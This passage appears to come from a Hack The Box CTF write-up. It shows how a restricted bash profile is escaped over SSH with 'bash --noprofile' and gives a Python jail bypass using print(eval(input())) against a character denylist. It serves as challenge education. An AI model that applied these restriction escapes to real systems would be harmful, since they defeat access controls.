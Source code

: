 Once inside the instance you have a very restricted profile that doesn't allow any slashes, `cd`,`su`,`id`,`ls`,`python`..
You can however do `export -p` 

We know from the source code there is an entry listening on port 1337 you can connect to it by using ssh with "bash noprofile" to bypass the restricted bash profile:
`ssh restricted@10.244.5.144 -p 1337 "bash --noprofile"`

`pwd`
/home/restricted

`id`
uid=1000(restricted) gid=1000(restricted) groups=1000(restricted)

`cd /`

`ls`

`cat flag_8dpsy`

HTB{r35tr1ct10n5_4r3_p0w3r1355}


## Misc - nehebkaus trap

This challenge is about Python Jailbreak escape.
Denylisted characters:
`Blacklisted character(s): ['.', '_', '"', ' ', "'", ',']`
Allowed characters:
`(`
`)`
`+`
`aZ`

There are two methods that I discovered to complete this challenge

### Invoking `input()`
```
    __
   {00}                                                                                                                                
   \__/                                                                                                                                
   /^/                                                                                                                                 
  ( (                                                                                                                                  
   \_\_____                                                                                                                            
   (_______)                                                                                                                           
  (_________()Ooo.                                                                                                                                                                                                                                       
[ Nehebkau's Trap ]                                                                                                                                                                                                                                          
You are trapped!                                                                                                                       
Can you escape?                                                                                                                        
> print(eval(input()))                                                                                                                                                                                                                                     
[*] Input accepted!                                                                                                                                                                                                                                          
```